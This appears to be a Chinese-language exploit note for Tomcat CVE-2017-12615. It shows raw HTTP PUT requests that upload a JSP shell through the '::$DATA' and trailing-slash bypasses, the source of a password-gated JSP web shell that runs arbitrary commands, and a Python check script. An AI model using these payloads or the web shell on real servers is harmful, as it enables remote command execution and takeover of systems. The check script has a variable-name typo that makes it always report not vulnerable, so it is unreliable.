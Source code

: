 # Tomcat PUT方法任意写文件漏洞（CVE-2017-12615）



## 利用条件

 Apache Tomcat 7.0.0 - 7.0.79 

平台: Windows 

 启用了 HTTP PUT 请求方法  (conf/web.xml 中对于 DefaultServlet 的 readonly 设置为 false)



## 利用方式

不能直接上传jsp结尾的文件

利用windows平台下:` sample.txt::$DATA `等价于`sample.txt`的特性来写shell



```
PUT /111.jsp::$DATA HTTP/1.1
Host: 10.1.1.6:8080
User-Agent: JNTASS
DNT: 1
Connection: close

...jsp shell...
```



```
PUT /111.jsp/ HTTP/1.1
Host: 10.1.1.6:8080
User-Agent: JNTASS
DNT: 1
Connection: close

...jsp shell...
```





```java
<%
    if("023".equals(request.getParameter("pwd"))){
        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
        int a = -1;
        byte[] b = new byte[2048];
        out.print("<pre>");
        while((a=in.read(b))!=-1){
            out.println(new String(b));
        }
        out.print("</pre>");
    }
%>
```



## 检测脚本

```python
import requests
def poc(url):
    filename="tomcat_check_vuln.txt"
    content="test"
    try:
        requests.put(url+"/"+filename,data=conetent)
        res=requests.get(url+"/"+filename)
    except :
        return False
    
    if res.status_code==200:
        return True
    return False

```

